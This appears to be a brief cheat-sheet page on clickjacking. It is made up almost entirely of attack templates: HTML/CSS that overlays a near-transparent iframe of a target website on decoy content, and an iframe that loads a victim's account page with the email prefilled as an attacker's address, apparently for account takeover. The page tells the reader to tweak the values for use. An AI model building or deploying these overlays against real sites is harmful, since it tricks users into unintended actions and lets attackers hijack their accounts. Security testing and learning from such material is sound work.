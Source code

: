 ## basic attack

change **opacity + width + height** values as you wish: 
```html
<head>
  <style>
    #target_website {
    	position:relative;
    	width:128px;
    	height:128px;
    	opacity:0.00001;
    	z-index:2;
    	}
    #decoy_website {
    	position:absolute;
    	width:300px;
    	height:400px;
    	z-index:1;
    	}
  </style>
</head>
...
<body>
  <div id="decoy_website">...decoy web content here...</div>
  <iframe id="target_website" src="https://vulnerable-website.com"></iframe>
</body>
```

## prefilled form 
```html
`<iframe src="https://vulnerable-website.com/my-account?email=hacker@attacker-website.com"></iframe>`
```
